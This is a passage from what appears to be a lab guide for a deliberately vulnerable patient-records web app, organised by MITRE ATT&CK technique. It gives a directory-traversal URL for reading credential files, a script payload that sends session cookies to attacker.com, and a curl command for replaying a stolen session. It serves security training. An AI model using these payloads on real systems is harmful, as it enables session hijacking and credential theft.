 **Expected Output**:
```
admin:admin123
doctor1:doctor123  
nurse1:nurse123
```

---

#### T1555.003: Credentials from Password Stores

**Description**: Extract credentials from configuration files.

**Vulnerable Component**: Directory traversal vulnerability

**Attack Vector**:
```
http://localhost:8080/settings.php?file=.env.example
```

**Testing Steps**:
1. Access settings page
2. Use file viewer to read `.env.example`
3. Extract database credentials, API keys, AWS credentials

**Exposed Credentials**:
```
DB_USER=webapp
DB_PASS=webapp123
AWS_ACCESS_KEY_ID=AKIAIOSFODNN7EXAMPLE
AWS_SECRET_ACCESS_KEY=wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY
```

---

#### T1539: Steal Web Session Cookie

**Description**: Steal session cookies to bypass authentication.

**Vulnerable Component**: XSS vulnerability

**Attack Vector**:
```javascript
<script>
fetch('http://attacker.com/steal?cookie=' + document.cookie);
</script>
```

**Testing Steps**:
1. Inject XSS payload into patient medical notes
2. Wait for admin to view patient record
3. Capture admin's PHPSESSID cookie
4. Use cookie to hijack admin session

**Session Hijacking**:
```bash
curl http://localhost:8080/dashboard.php \
  -b "PHPSESSID=stolen_session_id"
```

---
